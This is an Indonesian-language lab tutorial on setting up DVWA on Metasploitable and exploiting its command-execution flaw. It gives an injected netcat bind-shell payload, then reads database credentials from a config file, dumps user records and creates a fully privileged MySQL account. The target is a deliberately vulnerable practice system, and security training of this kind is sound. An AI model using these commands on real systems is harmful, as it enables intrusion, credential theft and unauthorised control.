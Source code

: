 #DVWA
DVWA adalah perangkat lunak berbasis website yang didesain memiliki celah agar dapat digunakan untuk berlatih. Dalam hal ini akan digunakan DVWA sebagai eksploitable platform dan kali linux host yang akan kita gunakan untuk mengeksploit.
##Instalasi DVWA
1. Pertama kita harus memiliki metasploitable
![](metasploitable.PNG)
2. Setelah itu, kita ekstrak
![](ekstrakmetasploitable.PNG)
3. Lalu kita buka folder metasploitable tersebut
![](isimetasploitable.PNG)
4. Selanjutnya kita jalankan program virtualbox dan buat virutal mesin baru lalu kita beri nama "metasploitable"
![](buatmetasploitable.PNG)
5. Setelah itu kita diminta memasukkan besar memory
![](memory.PNG)
6. Setelahnya kita diminta memilih mekanisme hardisk yang kita gunakan. Kita akan menggunakan pilihan ketiga lalu klik tombol folder di sebelah kanan  
![](mekanismehardisk.PNG)
7. Apabila tombol folder kita klik, maka akan muncul popup untuk memilih virtual disk. Kita pilih virtual disk metasploitable yang ada pada step 3.
![](pilihmetasploitable.PNG)
8. Apabila kita sudah memilih, tampilan akan menjadi seperti dibawah ini lalu kita klik buat
![](setelahpilih.PNG)
9. Apabila berhasil, maka virtual mesin dengan nama "metasploitable" akan muncul pada daftar virtual mesin
![](daftarmesin.PNG)
10. Selanjutnya buka pengaturan jaringan pada virtual mesin yang baru saja kita buat. Kita pilih "Adaptor Ter-bridge" pada pilihan "Terpasang pada:"
![](pengaturanjaringan.PNG)
11. Jalankan virtual mesin yang baru saja kita buat. Lalu kita masuk dengan menggunakan username: **msfadmin** dan password: **msfadmin**
![](metasploitablelogin.PNG)
12. Apabila kita berhasil login akan muncul tampilan seperti di bawah ini
![](metasploitablelandingpage.PNG)
13. Ketikkan **ifconfig** untuk mengetahui ip dari metasploitable yang telah kita buat. Dari gambar dibawah ini dapat kita lihat bahwa metasploitable kita mendapatkan ip **192.168.1.28**
![](ipmetasploitable.PNG)
14. Kita bisa mengakses metasploitable yang kita bangun dengan cara mengetikkan alamat ip dari metasploitable yang kita buat. Dalam hal ini ip metasploitable kita adalah **192.168.1.28**
![](bukadvwa.PNG)
15. Setelah itu kita diarahkan ke sebuah halaman yang berisi daftar modul metasploitable. Dalam hal ini kita hanya akan menggunakan dvwa. Kita klik **DVWA**
![](moduldvwa.PNG)
16. Selanjutnya kita akan diarahkan ke halaman login DVWA
![](logindvwa.PNG)

##Eksploit DVWA
## Lesson 4(Using Metasploit with Command Execution)
Pada bagian ini kita akan belajar mengenai **Command Execution**. Dengan **Command Execution** memungkinkan penyerang untuk mengeksekusi perintah melalui bash   
1. Login DVWA. Default username: **admin** dan password: **password**.  
![login](logindvwa.PNG)  
2. Ubah tingkat kesulitan pada DVWA menjadi low
![ubah tingkat kesulitan](dvwasecurity.PNG)
3. Pilih "command execution" pada bar navigasi
![](4/beranda.PNG)
4. Masukkan **192.168.1.28;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe** . Perintah tersebut akan membuka netcat session yang terhubung dengan bash
![](4/inputvulnerable.PNG) 
5. Selanjutnya kita buka metasploit framework pada kali linux
![](4/metasploit.PNG)
6. Apabila berhasil login akan muncul tampilan seperti di bawah ini. Pada gambar sudah terdapat syntax untuk terhubung dengan netcat session yang telah kita buat pada step 4.  
![](4/metasploitlogged.PNG)
7. Apabila terhubung kita dapat menggunakan shell dvwa seperti pada gambar di bawah ini
![](4/usercredential.PNG)
pada gambar diatas dapat diketahui current working directory dan credential kita  
8. Pada step 7 dapat kita ketahui bahwa kita berada di directory **/var/www/dvwa/vulnerabilities/exec**. Lalu kita coba akses folder **/var/www/dvwa** yang merupakan root dari dvwa dengan perintah **"cd ../.."**
![](4/dvwafolder.PNG)
9. Selanjutnya kita buka folder **config** dan gunakan perintah **cat config.inc.php** untuk mengetahui konfigurasi dbms
![](4/config.PNG)
pada gambar diatas terlihat bahwa user yang digunakan untuk mengakses dbms adalah **root** dan passwordnya adalah **''** atau kosong  
10. Kita memberikan query untuk melihat semua database ke mysql. Query: **echo "show databases;" | mysql -u root --password=""**
![](4/showdatabases.PNG)  
11. Selanjutnya kita bisa melihat daftar table yang ada pada databse dvwa. Query: **echo "use dvwa; show tables;" | mysql -u root --password=""** 
![](4/showtables.PNG)  
12. Selanjutnya kita coba melihat daftar user pada tabel users di database dvwa. Query: **echo "select * from dvwa.users;" | msql -u root --password=""**
![](4/selectusers.PNG)  
13. Selanjutnya kita coba memasukkan record baru. Query: **echo "insert into dvwa.users values(6, 'kelompok', '11', 'kelompok11', MD5('kelompok11'), 'NA');"|mysql -u root --password=""**
![](4/insertusers.PNG)
14. Pada step 10 kita dapat melihat terdapat database **mysql**. Kita coba melakukan melihat tabel yang ada pada database mysql. Query: **echo "use mysql; show tables;"|mysql -u root --password=""**
![](4/showmysqltables.PNG)
15. Selanjutnya kita coba menambahkan user baru. Query: **echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%' IDENTIFIED BY 'abc123' WITH GRANT OPTION;" | mysql -u root --password=""**
![](4/insertusersmysql.PNG)

##Lesson 5(Using Tamper Data with crack_web_form.pl)